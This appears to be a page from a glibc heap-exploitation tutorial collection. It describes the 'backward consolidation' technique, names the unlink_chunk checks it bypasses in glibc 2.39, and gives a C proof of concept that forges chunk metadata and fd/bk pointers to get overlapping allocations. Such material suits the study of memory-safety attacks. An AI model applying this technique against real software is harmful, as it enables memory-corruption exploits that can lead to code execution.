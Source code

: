 ## backward consolidation

Same as [forward consolidation](../forward_consolidation)

**Purpose:** We can have two separate chunks allocated to the same space

**Require:** Have an ability to change the metadata of the allocated chunks

**Mitigations need to bypass:** The malloc consolidates 2 chunks using `malloc_consolidate` function, but before consolidate them, malloc must unlink (use `unlink_chunk`) first. And there are two mitigations inside the `unlink_chunk` that we need to bypass

    - [prev_size](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1610-L1611)
    - [fd/bk](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1616-L1617)

## POC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    long *consolidated_chunk, *victim, *chunk;

    consolidated_chunk = malloc(0x80);
    victim = malloc(0x410);
    chunk = malloc(0x10); // Avoid top-chunk consolidate

    /* Setup victim prev_size & size fields */
    victim[-2] = 0x90;
    victim[-1] = 0x420;

    /* Create a FAKE main_arena */
    consolidated_chunk[8] = (long)&consolidated_chunk[-2];
    consolidated_chunk[9] = (long)&consolidated_chunk[-2];

    /* Create a FAKE fd/bk */
    consolidated_chunk[0] = (long)&consolidated_chunk[6];
    consolidated_chunk[1] = (long)&consolidated_chunk[6];

    free(victim); // Triger backward consolidation
    // After this, our victim chunk would be freed, and due to backward consolidation it will be merged with the consolidated_chunk
    // This create an overlapping chunk on a 0x90 (include metadata) chunk
    long *overlaping_chunk = malloc(0x80);
    long *new_chunk = malloc(0x410);

    // Confirm again
    assert(overlaping_chunk == consolidated_chunk);

    return 0;
}
```
